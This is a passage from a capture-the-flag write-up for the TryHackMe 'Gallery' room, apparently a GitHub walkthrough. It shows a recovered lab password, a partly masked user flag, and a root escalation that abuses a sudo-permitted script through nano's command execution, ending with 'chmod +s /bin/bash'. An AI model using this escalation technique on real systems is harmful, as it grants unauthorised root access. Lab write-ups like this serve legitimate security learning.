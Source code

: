 We got the password for the user mike here.
```
b3stpassw0rdbr0xx
```
After logging in as mike there is user.txt in his home directory

```
THM{af05cd30bfed6#############}
```

<br>

## Privilege Escalation

Using `sudo -l` command as user mike reveals this..

```
mike@gallery:/$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

here the user mike can run the script ***rootkit.sh*** as root.
Checking the script shows this..
```
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

Here read command is opening `nano` using which we can execute commands.
But this is where I was getting an error
```
mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
Would you like to versioncheck, update, list or read the report ? read
Error opening terminal: unknown.
```
A quick google search showed a fix for this
Type this command
```
export TERM=linux
```
Now we can open nano
I have followed these commands to set a *suid* bit on `/bin/bash`
```
^R ^X
chmod +s /bin/bash
```